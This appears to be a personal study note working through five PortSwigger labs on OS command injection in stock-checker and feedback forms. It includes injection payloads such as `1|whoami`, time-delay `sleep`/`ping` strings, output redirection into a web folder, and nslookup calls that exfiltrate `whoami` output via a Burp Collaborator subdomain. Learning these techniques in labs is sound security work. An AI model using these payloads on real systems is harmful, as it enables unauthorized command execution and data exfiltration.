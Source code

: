 [OS Command Injection](https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/) (git)
https://book.hacktricks.xyz/pentesting-web/command-injection

## **1. OS command injection, simple case**
This lab contains an [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the `storeID` parameter, giving it the value `1|whoami`.
3. Observe that the response contains the name of the current user.

Analysis:
	![[Pasted image 20241006185925.png]]

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |
![[Pasted image 20241006185012.png]]

## **2. Blind OS command injection with time delays**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
    `email=x ||ping + -c + 10 + 127.0.0.1||`

Analysis:

- after subbmiting the form we obsrve that every input field is accepted so we will find out which one it is susceptible for OS injection
	![[Pasted image 20241007180502.png]]

- for each field (name/email/subject) --> `|| sleep 10 #`  and URL encode it
	![[Pasted image 20241007180742.png]]
	![[Pasted image 20241007181105.png]]

## **3. Blind OS command injection with time delays**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the `whoami` command and retrieve the output.

1. Modify the `email` parameter, changing it to:
    `email= || whoami>/var/www/images/output.txt ||`
2. Now use Burp Suite to intercept and modify the request that loads an image of a product.
3. Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command:
    `filename=output.txt`
4. Observe that the response contains the output from the injected command.

Analysis:

- Confirm blind command injection
	email field  (submit feedback form page)

![[Pasted image 20241007200025.png]]

- Check where images are stored
	`GET/image?filename=x.jpg` --> /var/www/images
	![[Pasted image 20241007200116.png]]
	
-  Redirect output to file
	email= x `|| whoami > /var/www/images/output.txt #` (url encode it)
	![[Pasted image 20241007201334.png]]
	
- Check if file was created 
	`GET/image?filname=output.txt` 
	![[Pasted image 20241007201453.png]]

## **4. Blind OS command injection with out-of-band interaction

This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

1. Modify the `email` parameter, changing it to:
    `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
 
Analysis:
![[Pasted image 20241008193453.png]]

## **5.  Blind OS command injection with out-of-band data exfiltration**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

1. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
    ``email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``
2. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
3. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.

Analysis:
![[Pasted image 20241008194047.png]]

